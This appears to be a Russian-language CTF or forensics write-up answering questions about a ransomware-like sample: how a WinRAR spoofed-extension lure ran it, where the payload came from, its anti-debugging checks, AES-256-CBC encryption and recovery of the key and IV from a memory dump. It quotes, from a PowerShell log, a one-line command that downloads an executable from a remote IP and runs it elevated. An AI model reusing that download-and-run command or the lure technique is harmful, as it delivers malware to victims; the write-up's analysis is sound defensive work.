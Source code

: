 ## С помощью какой уязвимости данное ВПО запустилось? В каком ПО?

После непродолжительных поисков находим во временной директории пользователя папку с разархивированным содержимым архива, а после использования утилиты WinPrefetchView находим, что cmd.exe запустил командлет `TOP_SECRET.PDF .CMD` видим :

![https://i.imgur.com/qjeClzt.png](https://i.imgur.com/qjeClzt.png)

Несмотря на то, что они зашифрованы, по названию (`TOP_SECRET.pdf .cmd`) можно определить, какая уязвимость привела к исполнению вредоносного файла. В [WinRAR присутствует недоработка](https://habr.com/ru/articles/797127/), благодаря которой пользователь нажимает на файл-приманку (в данном случае `TOP_SECRET.pdf`, скачанный из почты), а вместе с ним исполняется файл злоумышленника (набор инструкций командной строки). 

## С какого сервера была скачана полезная нагрузка?

Находим по пути `C:\Windows\System32\Winevt\Logs\Windows PowerShell.evtx` лог PowerShell’а, в котором обнаруживаем команду, которой был закачан пэйлоад:

```powershell
powershell -command ($drop=Join-Path -Path $env:APPDATA -ChildPath Rjomba.exe);(New-Object System.Net.WebClient).DownloadFile('http://95.169.192.220:8080/prikol.exe', $drop); Start-Process -Verb runAs $drop
```

Обнаруживаем адрес сервера `95.169.192.220:8080`, название полезной нагрузки и скачиваем его для дальнейшего анализа.

## Какие методы противодействия отладке использует программа?

После использования VirusTotal, Triage и пр. сервисов для статического и динамического анализа (а также пройдясь по программе с использованием дебаггера x64dbg), обнаруживаем, что во-первых, вредонос вызывает метод из Win32 API, чтобы проверить, прикреплён ли к нему дебаггер, а также проверяет имя исполняемого файла, сравнивая его со своим black-листом, и убивая процесс, если он из black-листа. 

![https://i.imgur.com/6D133rf.png](https://i.imgur.com/6D133rf.png)

## Какой алгоритм шифрования используется при шифровании данных?

Статический анализ используемой в бинарном файле библиотеки `CryptoPP` и динамический анализ данных приложения на стеке при исполнении показал, что для шифрования данных используется AES-CBC с размером ключа в 256 бит (32 байта).

## Какой ключ шифрования используется при шифровании данных?

Снимем дамп памяти процесса при помощи Task Manager’a / Process Hacker’a (обойдя систему обнаружения отладки переименованием исполняемого файла). Откроем в HEX-редакторе и поищем по регулярному выражению `\w{32}` - 32 человекочитаемых байта, потенциальный ключ. Обнаружим строку с повторяющимся `sugoma` (перевернутым названием ВПО `amogus`) длиной ровно 32 байта и соседствующую с ней строку `abababababababab`. Предположим, что это IV алгоритма.
![https://i.imgur.com/aP3nrZN.png](https://i.imgur.com/aP3nrZN.png)
